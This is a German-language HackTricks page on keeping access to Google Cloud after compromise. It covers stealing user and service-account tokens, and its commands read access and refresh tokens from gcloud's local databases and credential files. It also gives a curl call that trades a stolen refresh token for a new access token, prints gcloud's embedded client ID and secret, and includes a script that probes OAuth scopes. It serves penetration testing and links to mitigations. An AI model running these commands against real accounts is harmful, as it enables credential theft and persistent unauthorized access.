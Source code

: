 # GCP - Nicht-svc Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

Diese Techniken sind nützlich, sobald Sie auf irgendeine Weise einige GCP-Anmeldeinformationen oder eine Maschine in einer GCP-Umgebung kompromittiert haben.

## Token-Hijacking

### Authentifizierte Benutzertoken

Um das **aktuelle Token** eines Benutzers zu erhalten, können Sie Folgendes ausführen:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Überprüfen Sie auf dieser Seite, wie Sie **diesen Token direkt mit gcloud verwenden** können:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Um die Details zum **Generieren eines neuen Zugriffstokens** zu erhalten, führen Sie aus:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Es ist auch möglich, Auffrischungstoken in **`$HOME/.config/gcloud/application_default_credentials.json`** und in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** zu finden.

Um ein neues aktualisiertes Zugriffstoken mit dem **Auffrischungstoken**, der Client-ID und dem Client-Geheimnis zu erhalten, führen Sie Folgendes aus:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die Gültigkeit der Aktualisierungstoken kann in **Admin** > **Sicherheit** > **Google Cloud-Sitzungssteuerung** verwaltet werden, und standardmäßig ist sie auf 16 Stunden eingestellt, obwohl sie auf "Nie ablaufen" gesetzt werden kann:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Authentifizierungsablauf

Der Authentifizierungsablauf bei der Verwendung von etwas wie `gcloud auth login` öffnet einen Dialog im Browser und nachdem alle Berechtigungen akzeptiert wurden, sendet der Browser eine Anfrage wie diese an den vom Tool geöffneten HTTP-Port:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dann wird gcloud den Zustand und den Code mit einer fest codierten `client_id` (`32555940559.apps.googleusercontent.com`) und **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) verwenden, um die **endgültigen Aktualisierungs-Token-Daten** zu erhalten.

{% hint style="danger" %}
Beachten Sie, dass die Kommunikation mit localhost über HTTP erfolgt, sodass es möglich ist, die Daten abzufangen, um ein Aktualisierungs-Token zu erhalten. Diese Daten sind jedoch nur einmal gültig, daher wäre dies nutzlos. Es ist einfacher, das Aktualisierungs-Token einfach aus der Datei zu lesen.
{% endhint %}

### OAuth-Bereiche

Sie können alle Google-Bereiche unter [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) finden oder sie ausführen:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Es ist möglich zu sehen, welche Berechtigungsumfänge die Anwendung, die **`gcloud`** zur Authentifizierung verwendet, mit diesem Skript unterstützen kann:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Nach der Ausführung wurde überprüft, dass diese App diese Bereiche unterstützt:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
### Dienstkonten

Genau wie bei authentifizierten Benutzern, wenn es Ihnen gelingt, die private Schlüsseldatei eines Dienstkontos zu **kompromittieren**, können Sie **normalerweise so lange darauf zugreifen, wie Sie möchten**.\
Wenn Sie jedoch das **OAuth-Token** eines Dienstkontos stehlen, kann dies noch interessanter sein, denn auch wenn diese Tokens standardmäßig nur eine Stunde lang nützlich sind, bleibt das **OAuth-Token gültig, bis es abläuft**, selbst wenn das Opfer den privaten API-Schlüssel löscht.

### Metadaten

Offensichtlich können Sie solange Sie sich in einer Maschine innerhalb der GCP-Umgebung befinden, auf das Dienstkonto zugreifen, das mit dieser Maschine verbunden ist, indem Sie den Metadaten-Endpunkt kontaktieren (beachten Sie, dass die OAuth-Tokens, auf die Sie über diesen Endpunkt zugreifen können, normalerweise durch Berechtigungen eingeschränkt sind).

### Abhilfemaßnahmen

Einige Maßnahmen zur Behebung dieser Techniken werden in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) erläutert

## Referenzen

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen** möchten oder **HackTricks als PDF herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>
